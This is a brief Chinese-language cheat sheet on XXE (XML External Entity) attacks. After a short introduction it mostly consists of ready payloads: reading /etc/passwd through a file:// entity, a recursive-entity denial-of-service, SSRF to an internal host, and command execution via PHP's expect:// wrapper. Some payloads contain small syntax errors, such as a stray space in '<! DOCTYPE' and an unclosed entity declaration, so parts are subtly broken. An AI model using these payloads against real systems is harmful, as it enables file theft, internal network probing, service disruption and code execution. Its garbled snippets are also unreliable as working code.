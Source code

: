 # XXE

## 简介

XXE，XML External Entities。当XML解释器允许引用外部实体时，可以通过构造恶意XML内容，导致任意文件读取、执行系统命令、探测内网、攻击内网网站等等。一般XXE攻击基于回显或者报错才能进行，但是也可以通过Blind XXE的方式实现攻击。

## 利用

端口扫描，通过DTD盗取文件，RCE，钓鱼。

```js
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
```

**拒绝服务攻击**

通过递归引用实体，超过XML解释上限达到拒绝服务的目的。

```css
<!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY a0 "dos">
    <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
    <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
]>
```

**任意文件读取**

```css
<!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

**SSRF**

```css
<!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY file SYSTEM "http://private">
]>
<data>&file;</data>
```

**执行系统命令**

在安装了expect扩展的PHP环境中：

```php
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<! DOCTYPE ANY [
    <!ENTITY xxe SYSTEM "expect://id"
]>
<x>&xxe;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```



